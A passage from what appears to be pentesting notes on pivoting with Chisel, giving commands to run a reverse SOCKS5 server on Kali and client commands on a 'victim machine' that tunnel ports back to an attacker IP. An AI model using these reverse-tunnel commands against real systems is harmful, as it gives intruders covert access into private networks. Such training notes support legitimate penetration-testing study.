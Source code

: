 Solution 2

```bash
./chisel server --socks5 --reverse #on Kali
```

* PORT = port for the Chisel traffic
* socks5 = to setup a SOCKS5 proxy
* reverse = to tell Chisel to wait for a connection from a client

<div align="left"><figure><img src="../../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure></div>

#### Victim Machine / Client&#x20;

Solution 1(i suggest it)

Via socks5 bring us all ports:

```bash
./chisel client 10.10.10.4:33 R:socks
```

Solution 2

Bringing only one port which would be like this:

```bash
./chisel client <Attacker_IP>:2000 R:80:<Victim_IP>:80
```

Solution 3

```
./chisel client --fingerprint <finger_of_chisel_server> <Attacker_IP>:<Listening_Attacker_Port> R:8000:<Victim_IP>:80
```

* IP = The IP address of your Chisel server
* PORT = The port you set on your Chisel sever
* R:socks = enables the reverse SOCKS proxy

<figure><img src="../../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

The connection will have been opened on the local port of our machine through 1080.

{% hint style="info" %}
Rename terminal tabs is a best practies to facilitate understanding!
{% endhint %}
